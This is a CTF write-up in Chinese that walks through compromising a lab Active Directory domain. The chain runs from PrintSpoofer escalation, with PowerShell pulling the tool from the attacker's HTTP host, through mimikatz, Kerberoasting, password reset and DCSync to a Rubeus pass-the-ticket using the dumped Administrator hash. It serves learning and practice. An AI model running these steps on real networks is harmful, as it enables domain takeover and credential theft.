# 3. EzDomain-flag02

第一个flag普通用户就能拿，题目又给了一个DC，flag02应该得提权

## 先查看用户权限：



用chcp 65001后才看得到被奇怪编码的权限信息

其中SeImpersonatePrivilege为enabled，尝试用PrintSpoofer系列提权


看到靶机为64位，使用64位的PrintSpoofer

把PrintSpoofer64.exe改名为PrintSpoofer.exe放到HTTP服务

在WEB01 shell中下载PrintSpoofer.exe：

```powershell
cd C:\Users\Publicpowershell -c "iwr http://192.168.162.1:8000/PrintSpoofer.exe -OutFile C:\Users\Public\PrintSpoofer.exe"
```

运行PrintSpoofer提权：

```powershell
C:\Users\Public\PrintSpoofer.exe -c "cmd /c whoami > C:\Users\Public\sys.txt"type C:\Users\Public\sys.txt
```

虽然提权成功，但是我到不了管理员权限的powershell（交互shell不稳定），通过文件写入查看命令执行情况：



提权到了本机SYSTEM，控制了WEB01这台机器，得控制域控DC01

了解到当前机器本地保存的敏感凭证和相关秘密保存在LSA Secrets，而且知道有管理员权限+工具可以获取，经了解，其中一个工具为mimikatz



写入文件并访问：





找到了WEB01的两个账号的LSA secrets

以及Domian name（后面有用）



SQL服务保存了域账号凭据

登录这两个账户尝尝咸淡，但感觉没啥用

（后来发现可以直接在WEB01上操作，不用netcat了，这是个好事啊）

而.\svc_minecraft等价于WEB01\svc_minecraft为WEB01的本地账号

MINIL\sql_backup等价于minil.ctf\sql_backup为域账号



也是获取了第一题的flag（笑）

域控（DC01）在内网，攻击机要访问内网我得建立socks代理

（但我完全可以直接用WEB01呀，为啥一定得攻击机访问内网）

所有以下关于chiesl的尝试为冗余部分：

学习使用chisel后，开始操作：

先在windows攻击机上启动chisel server



在WEB01启动chisel client



刚刚的mimikatz找到了域名



可以结合secrets理解这台机器的里存了啥

```text
Domain name : MINIL
```

这是域的NetBIOS短名称（也叫“短域名”或“前置Win2000域名”）。它一般全大写，用于老式Windows网络浏览、net view命令、以及登录时下拉框显示的域名（例如MINIL\username）

```text
Domain FQDN : minil.ctf
```

这是域的DNS完全限定域名（FQDN），也就是域在DNS里的正式全名。FQDN是 Fully Qualified Domain Name 的缩写。

这个地址只在比赛的虚拟网络或本地环境中有效——.ctf并不是互联网上的真实顶级域，而是比赛搭建的私有域名

了解了之后去找DC的ip：为10.9.21.53



以上为冗余的chiesl尝试（但DC的ip还是有点用的）

现在得看看域内的情况，即内网的域信息

经了解，可使用BloodHound来看信息并寻路找攻击路径

再次在b站学习一波：https://www.bilibili.com/video/BV1xb4y1y7ju



也是用sharpbound抓到了域信息的zip

把zip给bloodhound，从sql_backup开始分析



没找到可以利用的到达路径

在cypher里一个一个试着看一下：

发现All Kerberoastable users（列出所有可以被kerberoast的用户）里有



而Shortest paths to Domain Admins from Kerberoastable users里有：

（从所有可Kerberoast用户出发，到Domain Admins的最短攻击路径）



也是找到攻击路径了：

```text
SVC_DEPLOY 可 Kerberoast
-->拿到 SVC_DEPLOY 密码
-->SVC_DEPLOY 可 ForceChangePassword BACKUP_SVC
-->BACKUP_SVC 可 DCSync 域
-->拿域管 hash
```

## 第一步：对SVC_DEPLOY进行Kerberoast：

Kerberoas：用一个普通域账号，向域控请求某个服务账号的 Kerberos 服务票据，这个票据的一部分由服务账号的密码哈希加密，把票据拿到本地离线爆破，爆出服务账号密码

学习使用rubeus后：



拿到hash，学习爆破哈希：

识别hash类型 -> 准备字典/规则 -> 跑爆破 -> 看结果 -> 调整策略



对应hashcat：-m 13100 = Kerberos 5 TGS-REP etype 23

hashcat：一款开源的密码恢复与哈希破解工具



找到了SVC_DEPLOY的密码：Minilab#1

接下来利用SVC_DEPLOY来ForceChangePassword BACKUP_SVC

在WEB01的powershell里执行：



作用如下：

- 用MINIL\svc_deploy / Minilab#1 绑定 LDAP
- 查找backup_svc
- 把backup_svc 密码改成 NewPassw0rd!2026
- 再用新密码验证 LDAP 登录

内容太多，这里选择转化为psl脚本执行



拿下了backup_svc（有DCSync权限），做DCSync得到域控的哈希

DCSync：正常情况下，域控之间会复制账号密码哈希。

如果某个账号拥有复制目录变更相关权限，它就可以伪装成域控，请求同步域内密码数据。

1.目标域是minil.ctf

2. 指定域控是DC01.minil.ctf

3. 要导出的目标用户是域管理员Administrator



查看dcsync.txt，内容如下：



重点：SAM Username : Administrator和Hash NTLM:

SAM：Security Account Manager（安全帐户管理器）



接下来利用Ticket传递攻击登录DC01

在WEB01上用Rubeus Pass-the-key +Pass-the-Ticket

```powershell
C:\Users\Public\Rubeus.exe asktgt /user:Administrator /domain:minil.ctf /rc4:7bd14b429e24757beda7c400ad780f0f /dc:10.9.21.53 /ptt
```

asktgt：向域控请求TGT（Ticket Granting Ticket，域内的通行证）

rc4：拿Administrator的NTLM hash当其Kerberos的RC4-HMAC加密密钥（以通过KDC验证：域控里的Kerberos服务检查你是否真的知道Administrator的秘密密钥，从而决定要不要给你发Administrator的TGT）

/dc:10.9.21.53：向这个域控（DC01）请求票据

/ptt：Pass The Ticket，把申请到的票据直接注入当前登录会话。这样接下来访问域内资源时，就会带着Administrator的 Kerberos 票据（TGT）

```text
Kerberos ticket
├─ TGT：Ticket Granting Ticket，向域控证明“我是某用户”
└─ TGS/ST：Service Ticket，访问具体服务用的票据
```



然后看看当前会话的票据：命令为klist



用域控名字访问：

```text
\\表示访问网络主机，不是本地路径
C$是Windows默认管理共享，代表远程机器的C盘
```



也是拿到flag02了（学会看懂太难力）
